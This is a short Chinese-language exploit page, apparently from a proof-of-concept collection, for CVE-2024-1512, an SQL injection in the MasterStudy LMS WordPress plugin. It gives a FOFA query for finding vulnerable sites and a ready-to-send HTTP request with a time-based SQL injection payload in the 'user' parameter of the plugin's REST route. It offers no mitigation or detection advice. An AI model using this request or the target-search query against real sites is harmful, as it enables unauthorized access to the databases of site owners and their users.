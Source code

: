 ## WordPress-MasterStudy-LMS插件存在SQL注入漏洞(CVE-2024-1512)

WordPress Plugin MasterStudy LMS 3.2.5 版本及之前版本存在安全漏洞，该漏洞源于对用户提供的参数转义不足，导致可以通过 /lms/stm-lms/order/items REST 路由的 user 参数进行基于联合的 SQL 注入。

## fofa

```
body="wp-content/plugins/masterstudy-lms-learning-management-system/"
```

## poc

```
GET /?rest_route=/lms/stm-lms/order/items&author_id=1&user=1)+AND+%28SELECT+3493+FROM+%28SELECT%28SLEEP%285%29%29%29sauT%29+AND+%283071%3D3071 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406262219886.png)